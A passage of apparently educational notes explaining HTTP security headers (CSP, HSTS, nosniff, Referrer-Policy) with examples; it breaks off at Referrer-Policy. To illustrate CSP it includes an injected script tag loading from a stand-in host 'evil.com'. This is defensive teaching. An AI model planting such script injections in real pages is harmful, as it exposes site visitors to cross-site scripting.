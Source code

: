 Helps block **XSS (Cross-Site Scripting)** by controlling allowed content sources.

Example:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.tryhackme.com; style-src 'self'
```

* `default-src 'self'` → Allow only same domain content.
* `script-src` → Scripts only from own site + trusted CDN.
* `style-src` → CSS only from own domain.

💡 **Real-world example**:
If CSP is missing → An attacker injects `<script src="http://evil.com/malware.js">` into a comment box → browser runs it.
If CSP is enforced → Browser **blocks** this script since `evil.com` isn’t whitelisted.


#### Strict-Transport-Security (HSTS)

Forces browsers to use **HTTPS only** (prevents downgrade/MITM attacks).

Example:

```http
Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
```

* `max-age` → Time (seconds) to enforce HTTPS.
* `includeSubDomains` → Apply to all subdomains.
* `preload` → Add to browser preload lists (built-in security).

💡 **Real-world example**:
Without HSTS, an attacker can redirect a user from `https://bank.com` to `http://bank.com` (unencrypted).
With HSTS, browser **refuses HTTP** and auto-upgrades to HTTPS.


#### X-Content-Type-Options

Prevents browsers from **MIME sniffing** (guessing file type).

Example:

```http
X-Content-Type-Options: nosniff
```

* Stops browser from interpreting files differently.

💡 Example:
If a file uploaded as `.txt` actually has hidden JavaScript, a browser might misinterpret it. With `nosniff`, browser sticks to declared type.


#### Referrer-Policy

Controls how much **referrer info** is shared when clicking links.

Examples:
